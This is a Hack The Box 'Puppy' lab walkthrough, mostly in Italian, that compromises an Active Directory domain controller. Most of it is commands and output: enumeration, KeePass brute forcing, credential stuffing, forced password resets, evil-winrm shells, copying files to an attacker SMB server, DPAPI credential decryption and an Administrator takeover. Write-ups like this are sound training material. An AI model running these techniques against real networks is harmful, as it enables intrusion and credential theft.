





# Puppy



Machine Information:

```text

As is common in real life pentests, you will start the Puppy box with credentials for the following account: 
levi.james / KingofAkron2025!

```

## Recon

```bash

$ nmap -p- --min-rate 1000 10.x.x.x             

PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
111/tcp   open  rpcbind
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
2049/tcp  open  nfs
3260/tcp  open  iscsi
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49664/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown
49674/tcp open  unknown
49696/tcp open  unknown
60779/tcp open  unknown
60793/tcp open  unknown

```

```bash

$ nmap -p53,88,111,135,139,389,445,464,593 -sCV 10.x.x.x 

PORT    STATE SERVICE       VERSION
53/tcp  open  domain        Simple DNS Plus
88/tcp  open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-09-09 03:42:03Z)
111/tcp open  rpcbind       2-4 (RPC #100000)
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
445/tcp open  microsoft-ds?
464/tcp open  kpasswd5?
593/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h59m59s
| smb2-time: 
|   date: 2025-09-09T03:42:48
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

```

```bash

$ nxc smb --generate-hosts-file /etc/hosts 10.x.x.x
SMB         10.x.x.x  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False) 

```

```text

10.x.x.x     DC.PUPPY.HTB PUPPY.HTB DC

```

## Information Gathering as Levi

Si raccolgono informazioni sulle **shares**.

```bash

$ nxc smb PUPPY.HTB -u 'levi.james' -p 'KingofAkron2025!' --shares 
SMB         10.x.x.x  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False) 
SMB         10.x.x.x  445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
SMB         10.x.x.x  445    DC               [*] Enumerated shares
SMB         10.x.x.x  445    DC               Share           Permissions     Remark
SMB         10.x.x.x  445    DC               -----           -----------     ------
SMB         10.x.x.x  445    DC               ADMIN$                          Remote Admin
SMB         10.x.x.x  445    DC               C$                              Default share
SMB         10.x.x.x  445    DC               DEV                             DEV-SHARE for PUPPY-DEVS
SMB         10.x.x.x  445    DC               IPC$            READ            Remote IPC
SMB         10.x.x.x  445    DC               NETLOGON        READ            Logon server share 
SMB         10.x.x.x  445    DC               SYSVOL          READ            Logon server share
 
```

E' presente la **share** **DEV** per la quale **levi.james** non ha accesso.

Si raccolgono informazioni sugli **users**.

```bash

$ nxc smb PUPPY.HTB -u 'levi.james' -p 'KingofAkron2025!' --users  
SMB         10.x.x.x  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False) 
SMB         10.x.x.x  445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
SMB         10.x.x.x  445    DC               -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.x.x.x  445    DC               Administrator                 2025-02-19 19:33:28 0       Built-in account for administering the computer/domain 
SMB         10.x.x.x  445    DC               Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.x.x.x  445    DC               krbtgt                        2025-02-19 11:46:15 0       Key Distribution Center Service Account 
SMB         10.x.x.x  445    DC               levi.james                    2025-02-19 12:10:56 0        
SMB         10.x.x.x  445    DC               ant.edwards                   2025-02-19 12:13:14 0        
SMB         10.x.x.x  445    DC               adam.silver                   2025-09-09 04:34:29 0        
SMB         10.x.x.x  445    DC               jamie.williams                2025-02-19 12:17:26 0        
SMB         10.x.x.x  445    DC               steph.cooper                  2025-02-19 12:21:00 0        
SMB         10.x.x.x  445    DC               steph.cooper_adm              2025-03-08 15:50:40 0        
SMB         10.x.x.x  445    DC               [*] Enumerated 9 local users: PUPPY

```

### BloodHound

Si raccolgono informazioni su **AD** con **bloodhound-python**.

```bash

$ bloodhound-python -d PUPPY.HTB -c all -ns 10.x.x.x -u 'levi.james' -p 'KingofAkron2025!' --zip

```

Si visualizzano permessi e possibili *path* di attacco con **BloodHound**.



## Member of Developers

Si sfrutta il permesso di **GenericWrite** per aggiungere **levi.james** al gruppo **DEVELOPERS**.

```bash

# Add Member
$ net rpc group addmem 'DEVELOPERS' 'levi.james' -U 'PUPPY.HTB'/'levi.james'%'KingofAkron2025!' -S 'DC.PUPPY.HTB'

# Get Members of Developers
$ net rpc group members 'DEVELOPERS' -U 'PUPPY.HTB'/'levi.james'%'KingofAkron2025!' -S 'PUPPY.HTB' 
PUPPY\levi.james
PUPPY\ant.edwards
PUPPY\adam.silver
PUPPY\jamie.williams

```

## Read DEV

Si accede al contenuto della share **DEV**.

```bash

$ impacket-smbclient 'levi.james':'KingofAkron2025!'@PUPPY.HTB
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

# shares
ADMIN$
C$
DEV
IPC$
NETLOGON
SYSVOL

# use DEV

# ls
drw-rw-rw-          0  Sun Mar 23 03:07:57 2025 .
drw-rw-rw-          0  Sat Mar  8 11:52:57 2025 ..
-rw-rw-rw-   34394112  Sun Mar 23 03:09:12 2025 KeePassXC-2.7.9-Win64.msi
drw-rw-rw-          0  Sun Mar  9 16:16:16 2025 Projects
-rw-rw-rw-       2677  Tue Mar 11 22:25:46 2025 recovery.kdbx

# get recovery.kdbx

```

Si analizza il file **recovery.kdbx**.

```bash

$ file recovery.kdbx                          
recovery.kdbx: Keepass password database 2.x KDBX

```

> **KeePass** is a free open source password manager.

## Attack to KeePass DB

Si utilizza **BrutalKeePass** per il **brute-forcing** della password che protegge il file `recovery.kdbx`.

> **BrutalKeePass**: [https://github.com/toneillcodes/brutalkeepass/](https://github.com/toneillcodes/brutalkeepass/)

```bash

$ python3 bfkeepass.py -d recovery.kdbx -w /usr/share/wordlists/rockyou.txt -o
[*] Running bfkeepass
[*] Starting bruteforce process...
[!] Success! Database password: liverpool
[>] Dumping entries...
--------------------
[>] Title: JAMIE WILLIAMSON
[>] Username: None
[>] Password: JamieLove2025!
[>] URL: puppy.htb
[>] Notes: None
--------------------
[>] Title: ADAM SILVER
[>] Username: None
[>] Password: HJKL2025!
[>] URL: puppy.htb
[>] Notes: None
--------------------
[>] Title: ANTONY C. EDWARDS
[>] Username: None
[>] Password: Antman2025!
[>] URL: puppy.htb
[>] Notes: None
--------------------
[>] Title: STEVE TUCKER
[>] Username: None
[>] Password: Steve2025!
[>] URL: puppy.htb
[>] Notes: None
--------------------
[>] Title: SAMUEL BLAKE
[>] Username: None
[>] Password: ILY2025!
[>] URL: puppy.htb
[>] Notes: None
--------------------
[>] Entry dump complete.
[*] Stopping bruteforce process.
[*] Done.

```

## Credential Stuffing

Si combinano le password ricavate da **recovery.kdbx** e gli utenti presenti in **AD** per un **credential stuffing**.

```bash

$ nxc smb DC.PUPPY.HTB -u user.txt -p pass.txt                                                 
SMB         10.x.x.x  445    DC               [+] PUPPY.HTB\ant.edwards:Antman2025!

```

Si ottengono delle credenziali valide.

- **ant.edwards:Antman2025!**

## Information Gathering as Ant

Si raccolgono informazioni su **AD** con **bloodhound-python**.

```bash

$ bloodhound-python -d PUPPY.HTB -c all -ns 10.x.x.x -u 'ant.edwards' -p 'Antman2025!' --zip
 
```

Si visualizzano permessi e possibili *path* di attacco con **BloodHound**.



## Force Change Password

Si sfruttando i permessi di **GenericAll** per il **Force Change Password Attack** contro **adam.silver**.

```bash

# Force Change Password
$ net rpc password 'adam.silver' 'Password123!' -U 'PUPPY.HTB'/'ant.edwards'%'Antman2025!' -S 'DC.PUPPY.HTB'

# Check the credential
$ nxc smb PUPPY.HTB -u 'adam.silver' -p 'Password123!'                                                             
SMB         10.x.x.x  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False) 
SMB         10.x.x.x  445    DC               [-] PUPPY.HTB\adam.silver:Password123! STATUS_ACCOUNT_DISABLED

```

## Update the User Account Control

> **UserAccountControl flags**: [https://learn.microsoft.com/en-us/troubleshoot/windows-server/active-directory/useraccountcontrol-manipulate-account-properties](https://learn.microsoft.com/en-us/troubleshoot/windows-server/active-directory/useraccountcontrol-manipulate-account-properties)

Per **abilitare** l'utente **adam.silver** si sfrutta la **GenericAll** per rimuovere la flag **ACCOUNTDISABLE**.

```bash

# Remove the ACCOUNTDISABLE
$ bloodyAD --host 'DC' -d 'PUPPY.HTB' -u 'ant.edwards' -p 'Antman2025!' remove uac 'adam.silver' -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from adam.silver s userAccountControl

# Check the account status
$ nxc smb PUPPY.HTB -u 'adam.silver' -p 'Password123!'                                                             
SMB         10.x.x.x  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False) 
SMB         10.x.x.x  445    DC               [+] PUPPY.HTB\adam.silver:Password123!

```

## Shell as Adam

L'account **adam.silver** e' membro del gruppo **Remote Management Users** quindi si puo' accedere con **WinRM**.

```bash

$ evil-winrm -i 10.x.x.x -u 'adam.silver' -p 'Password123!'

```

Si ottiene la **user.txt**.

```powershell

*Evil-WinRM* PS C:\Users\adam.silver\Desktop> ls


    Directory: C:\Users\adam.silver\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         2/28/2025  12:31 PM           2312 Microsoft Edge.lnk
-ar---          9/8/2025   8:34 PM             34 user.txt


*Evil-WinRM* PS C:\Users\adam.silver\Desktop> cat user.txt
05e76714b6e1806aaae5afb9ef57b474

```

## Information Gathering as Adam

```powershell

*Evil-WinRM* PS C:\Users\adam.silver\Desktop> ls C:\


    Directory: C:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          5/9/2025  10:48 AM                Backups
d-----         5/12/2025   5:21 PM                inetpub
d-----          5/8/2021   1:20 AM                PerfLogs
d-r---         7/24/2025  12:30 PM                Program Files
d-----          5/8/2021   2:40 AM                Program Files (x86)
d-----          3/8/2025   9:00 AM                StorageReports
d-r---          3/8/2025   8:52 AM                Users
d-----         5/13/2025   4:40 PM                Windows

*Evil-WinRM* PS C:\> ls Backups


    Directory: C:\Backups


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          3/8/2025   8:22 AM        4639546 site-backup-2024-12-30.zip

```

Si avvia un **server SMB** sulla macchina Kali. 

```bash

$ impacket-smbserver -smb2support -username ap -password ap share .

```

Si scarica il file **site-backup-2024-12-30.zip**.

```powershell

# Connect to the resource
*Evil-WinRM* PS C:\Backups> net use \\10.10.16.28 /u:ap ap
The command completed successfully.

# Copy to share
*Evil-WinRM* PS C:\Backups> copy site-backup-2024-12-30.zip \\10.10.16.28\share\

```

```bash

$ file site-backup-2024-12-30.zip                                                                                                                                                                   
site-backup-2024-12-30.zip:                 Zip archive data, made by v3.0 UNIX, extract using at least v1.0, last modified ? 00 1980 00:00:00, uncompressed size 0, method=store 

$ unzip site-backup-2024-12-30.zip

# Decompressed in puppy/

```

Si ispeziona il contenuto della cartella **puppy/**.

```bash

$ tree puppy -L4
puppy
├── assets
│   ├── css
│   │   ├── fontawesome-all.min.css
│   │   ├── images
│   │   │   ├── highlight.png
│   │   │   └── overlay.png
│   │   └── main.css
│   ├── js
│   │   ├── breakpoints.min.js
│   │   ├── browser.min.js
│   │   ├── jquery.dropotron.min.js
│   │   ├── jquery.min.js
│   │   ├── jquery.scrolly.min.js
│   │   ├── main.js
│   │   └── util.js
│   ├── sass
│   │   ├── libs
│   │   │   ├── _breakpoints.scss
│   │   │   ├── _functions.scss
│   │   │   ├── _html-grid.scss
│   │   │   ├── _mixins.scss
│   │   │   ├── _vars.scss
│   │   │   └── _vendor.scss
│   │   └── main.scss
│   └── webfonts
│       ├── fa-brands-400.eot
│       ├── fa-brands-400.svg
│       ├── fa-brands-400.ttf
│       ├── fa-brands-400.woff
│       ├── fa-brands-400.woff2
│       ├── fa-regular-400.eot
│       ├── fa-regular-400.svg
│       ├── fa-regular-400.ttf
│       ├── fa-regular-400.woff
│       ├── fa-regular-400.woff2
│       ├── fa-solid-900.eot
│       ├── fa-solid-900.svg
│       ├── fa-solid-900.ttf
│       ├── fa-solid-900.woff
│       └── fa-solid-900.woff2
├── images
│   ├── adam.jpg
│   ├── antony.jpg
│   ├── banner.jpg
│   ├── jamie.jpg
│   └── Levi.jpg
├── index.html
└── nms-auth-config.xml.bak

9 directories, 40 files

```

Il file **nms-auth-config.xml.bak** contiene delle credenziali.

```xml

<?xml version="1.0" encoding="UTF-8"?>
<ldap-config>
    <server>
        <host>DC.PUPPY.HTB</host>
        <port>389</port>
        <base-dn>dc=PUPPY,dc=HTB</base-dn>
        <bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
        <bind-password>ChefSteph2025!</bind-password>
    </server>
    <user-attributes>
        <attribute name="username" ldap-attribute="uid" />
        <attribute name="firstName" ldap-attribute="givenName" />
        <attribute name="lastName" ldap-attribute="sn" />
        <attribute name="email" ldap-attribute="mail" />
    </user-attributes>
    <group-attributes>
        <attribute name="groupName" ldap-attribute="cn" />
        <attribute name="groupMember" ldap-attribute="member" />
    </group-attributes>
    <search-filter>
        <filter>(&(objectClass=person)(uid=%s))</filter>
    </search-filter>
</ldap-config>

```

Si verifica la validita' delle credenziali.

```bash

$ nxc smb PUPPY.HTB -u 'steph.cooper' -p 'ChefSteph2025!'                                                   
SMB         10.x.x.x  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False) 
SMB         10.x.x.x  445    DC               [+] PUPPY.HTB\steph.cooper:ChefSteph2025! 

$ nxc winrm PUPPY.HTB -u 'steph.cooper' -p 'ChefSteph2025!'
WINRM       10.x.x.x  5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)
WINRM       10.x.x.x  5985   DC               [+] PUPPY.HTB\steph.cooper:ChefSteph2025! (Pwn3d!)

```

-  **steph.cooper:ChefSteph2025!**

## Shell as Steph

```bash

$ evil-winrm -i 10.x.x.x -u 'steph.cooper' -p 'ChefSteph2025!'

```

Nella home di **steph.cooper** non e' presente nulla di interessante.

Su **Bloodhound** non sono evidenziati *path* di attacco da **steph.cooper**.

## Deeper Information Gathering su Adam

Si approfondisce l'analisi di **adam.silver**.

```bash

*Evil-WinRM* PS C:\Users\adam.silver\Desktop> dir -h


    Directory: C:\Users\adam.silver\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-         2/28/2025  12:31 PM            282 desktop.ini
-a-hs-         2/28/2025  12:31 PM          11068 DFBE70A7E5CC19A398EBF1B96859CE5D

```

Si scarica il file sulla macchina Kali utilizzando il **server SMB**.

```powershell

*Evil-WinRM* PS C:\Users\adam.silver\Desktop> net use \\10.10.16.28 /u:ap ap
The command completed successfully.

*Evil-WinRM* PS C:\Users\adam.silver\Desktop> copy DFBE70A7E5CC19A398EBF1B96859CE5D \\10.10.16.28\share\

```

Si analizza il file **DFBE70A7E5CC19A398EBF1B96859CE5D**.

```bash

$ file DFBE70A7E5CC19A398EBF1B96859CE5D 
DFBE70A7E5CC19A398EBF1B96859CE5D: data

$ xxd DFBE70A7E5CC19A398EBF1B96859CE5D | more -n10
00000000: 0100 0000 302b 0000 0000 0000 0100 0000  ....0+..........
00000010: d08c 9ddf 0115 d111 8c7a 00c0 4fc2 97eb  .........z..O...
00000020: 0100 0000 eabd 3810 3549 a841 a224 9b37  ......8.5I.A.$.7
00000030: 2019 3c86 0000 0020 3000 0000 4c00 6f00   .<.... 0...L.o.
00000040: 6300 6100 6c00 2000 4300 7200 6500 6400  c.a.l. .C.r.e.d.
00000050: 6500 6e00 7400 6900 6100 6c00 2000 4400  e.n.t.i.a.l. .D.
00000060: 6100 7400 6100 0d00 0a00 0000 0366 0000  a.t.a........f..
00000070: c000 0000 1000 0000 dcca d8c1 8705 14ee  ................
00000080: 22cb bd88 c511 b977 0000 0000 0480 0000  "......w........
00000090: a000 0000 1000 0000 5161 7ead f4a9 83aa  ........Qa~.....
--More--

```

Si cerca sul web.



I primi 20 bytes corrispondono ai **magic bytes** di un **DPAPI blob file signature**.

> **DPAPI Blob Hunting**: [https://medium.com/@toneillcodes/dpapi-blob-hunting-967d2baead6a](https://medium.com/@toneillcodes/dpapi-blob-hunting-967d2baead6a)

Questo suggerisce la presenza di **DPAPI files**.

## Attack to DPAPI

> **DPAPI** is a simple cryptographic application programming interface available as a built-in component in Windows 2000 and later versions of Microsoft Windows.

> **Windows Data Protection**: [https://learn.microsoft.com/en-us/previous-versions/ms995355(v=msdn.10)?redirectedfrom=MSDN](https://learn.microsoft.com/en-us/previous-versions/ms995355(v=msdn.10)?redirectedfrom=MSDN)

La **Master Key** utilizzata per cifrare i dati da proteggere dovrebbe essere situata in **C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID**.

In **adam.silver** non si e' trovato nulla, mentre, in **steph.cooper** si e' trovata una **master key**.

```powershell

*Evil-WinRM* PS C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107> dir -h


    Directory: C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          3/8/2025   7:40 AM            740 556a2412-1275-4ccf-b721-e6a0b4f90407
-a-hs-         2/23/2025   2:36 PM             24 Preferred

```

Mentre, i **DPAPI data protected** sono solitamente situati in **C:\Users\$USER\AppData\Roaming\Microsoft\Credentials**.

```powershell

*Evil-WinRM* PS C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials> dir -h


    Directory: C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          3/8/2025   7:54 AM            414 C8D69EBE9A43E9DEBF6B5FBD48B521B9

```

Si utilizza il **server SMB** per avere in locale sulla macchina Kali **master key** e **DPAPI blob file**.

Si effettua l'**unlock** della master key.

```bash

# Unlock the master key
$ impacket-dpapi masterkey -file 556a2412-1275-4ccf-b721-e6a0b4f90407 -password 'ChefSteph2025!' -sid S-1-5-21-1487982659-1829050783-2281216199-1107 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 556a2412-1275-4ccf-b721-e6a0b4f90407
Flags       :        0 (0)
Policy      : 4ccf1275 (1288639093)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84

```

Si effettua l'**unlock** del file con la master key.

```bash

# Unlock the data protected
$ impacket-dpapi credential -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84 -file C8D69EBE9A43E9DEBF6B5FBD48B521B9 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2025-03-08 15:54:29+00:00
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=PUPPY.HTB
Description : 
Unknown     : 
Username    : steph.cooper_adm
Unknown     : FivethChipOnItsWay2025!

```

Si ottengono le credenziali di **step.cooper_adm**.

```bash

$ nxc smb PUPPY.HTB -u 'steph.cooper_adm' -p 'FivethChipOnItsWay2025!'                                      
SMB         10.x.x.x  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False) 
SMB         10.x.x.x  445    DC               [+] PUPPY.HTB\steph.cooper_adm:FivethChipOnItsWay2025! (Pwn3d!)

```

- **steph.cooper_adm:FivethChipOnItsWay2025!**

## Shell as Steph Adm

Si accede a **WinRM** come **steph.cooper_adm** ma non si trova nulla di significativo a primo impatto.

Si passa all'analisi con **Bloodhound**.



## Force Change Password to Administrator

Si sfrutta il permesso **AllExtendedRights** per un **Force Change Password Attack** contro **Administrator**.

```bash

# Force Change Attack
$ net rpc password 'administrator' 'Password123!' -U "PUPPY.HTB"/'steph.cooper_adm'%'FivethChipOnItsWay2025!' -S 'DC.PUPPY.HTB'                                                 

# Check the credential
$ nxc winrm PUPPY.HTB -u 'administrator' -p 'Password123!'                                                                                                                      
WINRM       10.x.x.x  5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)                                                                                      
WINRM       10.x.x.x  5985   DC               [+] PUPPY.HTB\administrator:Password123! (Pwn3d!)                                                                                                     

```

## Shell as Admistrator

```bash

$ evil-winrm -i 10.x.x.x -u 'administrator' -p 'Password123!'

```

Si ottiene la **root.txt**.

```powershell

*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---          9/8/2025   8:34 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
f8fdd05f0bec1ddf041db05e18ddc9be

```
